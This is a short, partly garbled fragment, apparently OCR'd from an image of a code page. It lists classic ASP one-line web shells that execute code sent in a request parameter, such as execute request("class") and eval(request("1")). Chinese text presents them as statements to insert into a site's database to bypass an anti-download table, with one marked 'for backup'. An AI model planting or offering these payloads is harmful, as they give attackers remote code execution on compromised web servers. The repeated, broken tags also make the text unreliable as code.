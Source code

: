 ```php

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 
<%eval(request(“1″)):response.end%> 备份专用
```

